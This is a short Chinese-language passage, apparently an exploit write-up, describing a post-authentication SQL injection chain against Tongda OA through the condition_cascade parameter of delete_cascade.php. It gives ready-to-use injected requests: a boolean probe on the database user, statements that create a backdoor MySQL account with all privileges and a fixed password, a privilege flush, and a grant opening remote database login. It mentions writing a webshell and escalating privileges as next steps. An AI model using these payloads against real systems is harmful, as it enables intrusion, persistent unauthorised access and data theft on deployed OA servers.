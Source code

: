 利用条件:需要登录权限,文章作者给出了利用链注入加mysql权限,又是写木马的。 /general/hr/manage/query/delete_cascade.php?condition_cascade= select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99)) 1、添加一个mysql用户 grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
给创建的ateam666账户添加mysql权限。
刷新数据库就可以登录到数据库啦。 /general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges; 4、通达OA配置mysql默认是不开启外网访问的所以需要修改mysql授权登录。 /general/hr/manage/query/delete_cascade.php?condition_cascade= grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 5、接下来就是考验mysql提权功底的时候啦 233... 
